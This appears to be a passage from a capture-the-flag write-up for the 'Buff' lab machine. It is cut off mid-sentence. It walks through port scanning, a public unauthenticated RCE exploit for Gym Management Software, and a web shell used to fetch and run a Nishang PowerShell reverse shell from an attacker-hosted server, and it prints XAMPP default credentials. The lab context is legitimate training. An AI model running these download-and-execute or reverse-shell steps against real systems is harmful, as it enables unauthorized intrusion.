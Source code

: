 # buff

nmap scan shows that we have 2 ports open, they are 8080,7680

lets browse the 8080 http port first. as we keep navigating the pages, we see there is something here

![](../../.gitbook/assets/image%20%286%29.png)

there is something called a gym management software here, which the first thing we do is searchsploit and it shows us that we have unauthenticated RCE which is the most interested one for us

![](../../.gitbook/assets/image%20%287%29.png)

lets get the python script using `searchsploit -m php/webapps/48506.py`. our exploit script exits without conecting to any web shell as such, but if we look at the script, its making use of this  
[`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami`](http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami)\`\`

![](../../.gitbook/assets/image%20%285%29.png)

we got a shell kind of thing here, so now, I'm going to use nishang powershell script to get us back a reverse shell

lets host the Nishang `Invoke-PowerShellTcp.ps1` script on our webserver and run it from the uploaded web shell that we have, and we will get a reverse shell from this

```text
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=powershell%20%22iex(new-object%20net.webclient).downloadstring(%27http://10.10.14.28/sh.ps1%27)%22
```

![reverse shell](../../.gitbook/assets/image%20%288%29.png)

we found a `passwords.txt` on the machine

```text
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords)
```

so, now we got a first shell, and there are couple of listening ports, I want to 

